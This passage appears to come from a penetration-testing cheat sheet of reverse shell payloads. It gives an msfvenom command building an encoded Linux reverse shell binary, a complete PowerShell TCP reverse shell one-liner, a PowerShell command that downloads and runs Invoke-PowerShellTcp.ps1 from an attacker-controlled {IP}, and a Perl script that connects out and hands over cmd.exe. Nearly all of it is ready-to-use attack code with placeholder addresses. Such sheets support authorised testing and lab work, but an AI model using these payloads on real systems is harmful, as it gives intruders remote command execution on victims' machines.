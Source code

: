 #### **msfvenom**
```
msfvenom -p linux/x86/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -i 3 LHOST={IP} LPORT={PORT} -f elf -o shell
```

##### [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

-----

### Reverse Shell - Windows

#### **Powershell**

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('{IP}',{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

#### **Invoke-PowerShellTcp.ps1**

```
powershell iex (New-Object Net.WebClient).DownloadString('http://{IP}/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {IP} -Port {PORT}
```
* Download
  - [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

-----

### Special Reverse Shell

Perl File
```
#!/usr/bin/perl -w
use Socket;
$i="IP";
$p=PORT;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");
open(STDERR,">&S");
exec("cmd.exe");
};
```

-----
